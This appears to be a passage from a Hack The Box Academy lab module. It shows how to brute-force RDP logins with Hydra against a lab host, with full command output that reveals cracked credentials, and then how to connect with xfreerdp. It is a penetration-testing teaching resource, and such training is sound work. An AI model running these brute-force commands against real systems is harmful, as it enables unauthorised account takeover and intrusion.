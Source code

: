 **Hydra - RDP**

We can also use `Hydra` to perform RDP bruteforcing.

Network Services

```shell-session
AIceBear@htb[/htb]$ hydra -L user.list -P password.list rdp://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:05:40
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 25 login tries (l:5/p:5), ~7 tries per task
[DATA] attacking rdp://10.129.42.197:3389/
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: mrb3n password: rockstar, continuing attacking the account.
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: cry0l1t3 password: delta, continuing attacking the account.
[3389][rdp] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```

Linux offers different clients to communicate with the desired server using the RDP protocol. These include [Remmina](https://remmina.org/), [rdesktop](http://www.rdesktop.org/), [xfreerdp](https://linux.die.net/man/1/xfreerdp), and many others. For our purposes, we will work with xfreerdp.

**xFreeRDP**

Network Services

```shell-session
AIceBear@htb[/htb]$ xfreerdp /v:<target-IP> /u:<username> /p:<password>
```

Network Services

```shell-session
AIceBear@htb[/htb]$ xfreerdp /v:10.129.42.197 /u:user /p:password

...SNIP...
New Certificate details:
        Common Name: WINSRV
        Subject:     CN = WINSRV
        Issuer:      CN = WINSRV
        Thumbprint:  cd:91:d0:3e:7f:b7:bb:40:0e:91:45:b0:ab:04:ef:1e:c8:d5:41:42:49:e0:0c:cd:c7:dd:7d:08:1f:7c:fe:eb

Do you trust the above certificate? (Y/T/N) Y
```

![](https://academy.hackthebox.com/storage/modules/147/RDP.png)
